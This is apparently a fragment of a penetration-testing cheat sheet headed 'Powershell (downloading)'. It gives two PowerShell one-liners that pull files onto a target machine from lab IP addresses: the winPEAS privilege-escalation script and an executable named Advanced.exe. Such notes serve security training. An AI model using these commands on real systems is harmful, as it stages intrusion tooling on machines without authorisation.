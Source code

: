# Powershell (downloading)

```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.7:8888/winPEAS.bat', 'win.bat')
```

```
powershell -c wget "http://10.11.1.198/Advanced.exe" -outfile Advanced.exe
```

